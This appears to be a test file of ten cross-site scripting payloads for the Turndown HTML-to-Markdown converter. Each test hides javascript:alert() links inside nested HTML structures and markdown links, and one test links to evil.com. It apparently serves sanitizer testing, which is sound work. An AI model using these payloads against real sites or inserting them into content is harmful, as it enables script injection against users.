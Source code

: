 # Turndown HTML→Markdown Conversion Exploits

## Test 1: HTML Structure That Creates Dangerous Markdown
<div><a href="javascript:alert(1)">click</a> [text](https://evil.com)</div>

## Test 2: Nested HTML That Confuses Turndown
<blockquote><p><a href="javascript:alert(1)">start</a></p><p>[continued](javascript:alert(2))</p></blockquote>

## Test 3: HTML Comments That Survive in Markdown
<!-- [malicious](javascript:alert(1)) -->
<p>Safe text</p>

## Test 4: Table HTML to Markdown Conversion Exploit
<table><tr><td><a href="javascript:alert(1)">cell</a></td><td>[markdown](javascript:alert(2))</td></tr></table>

## Test 5: List HTML Structure Exploitation
<ul><li><a href="javascript:alert(1)">item</a> [markdown](javascript:alert(2))</li></ul>

## Test 6: Definition List HTML Structure
<dl><dt><a href="javascript:alert(1)">term</a></dt><dd>[definition](javascript:alert(2))</dd></dl>

## Test 7: Details/Summary HTML Structure
<details><summary><a href="javascript:alert(1)">summary</a></summary>[content](javascript:alert(2))</details>

## Test 8: Mixed Emphasis HTML Structure
<strong><em><a href="javascript:alert(1)">nested</a></em> [text](javascript:alert(2))</strong>

## Test 9: Code Block HTML Structure
<pre><code>[fake code block](javascript:alert(1))</code></pre>

## Test 10: Complex Nesting That Breaks Conversion
<div><blockquote><p><strong><em><a href="javascript:alert(1)">deep</a></em></strong></p></blockquote>[markdown](javascript:alert(2))</div>